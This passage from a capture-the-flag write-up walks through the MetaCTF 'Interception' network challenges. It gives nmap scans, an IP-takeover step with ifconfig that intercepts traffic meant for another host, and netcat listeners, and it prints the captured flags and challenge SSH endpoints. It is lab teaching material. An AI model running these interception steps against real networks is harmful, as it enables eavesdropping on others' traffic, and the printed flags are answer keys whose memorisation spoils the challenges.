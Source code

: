 `nmap -sn -PU 192.168.0.0/24`

4. then do a lil net catty cat

`nc -lu 192.168.0.2 8000`

`MetaCTF{addr3s5_r3s0lut1on_pwn4g3}`

# Interception II
Someone on this network is periodically sending the flag to ... someone else on this network, over TCP port 8000. Go get it.
ssh ctf-46ed3559da08@host.cg21.metaproblems.com -p 7000

## Solve
Similar process to Interception I.

1. There are more hosts up, so let's see what is open.

`nmap -p 8000 192.168.0.0/24 -v | grep open`

```python
Discovered open port 8000/tcp on 192.168.0.78
8000/tcp open http-alt
```

2. Ping to test connection.

`ping 192.168.0.78`

3. Check interface that we gotta change

`arp -a`

```python
ip-192-168-0-78.ec2.internal (192.168.0.78) at 02:42:0a:00:a3:c3 [ether] on eth0
```

4. Change the ip

`ifconfig eth0 192.168.0.78 netmask 255.255.255.0`

5. `ping 192.168.0.78` to refresh the arp cache so it does the spoofy

6. Setup the netcat connection

`nc -lvp 8000`

`MetaCTF{s0_m4ny_1ps_but_wh1ch_t0_ch00s3}`

# Interception III
192.168.55.3 is periodically sending the flag to 172.16.0.2 over UDP port 8000. Go get it.
By the way, I've been told the admins at this organization use really shoddy passwords.
ssh ctf-f36ef72cadc1@host.cg21.metaproblems.com -p 7000
Note: The password for this user is the flag from Interception I. You must finish Interception I before starting this challenge. 

## Solve
First enumerate.... `nmap -v 192.168.0.0/24`
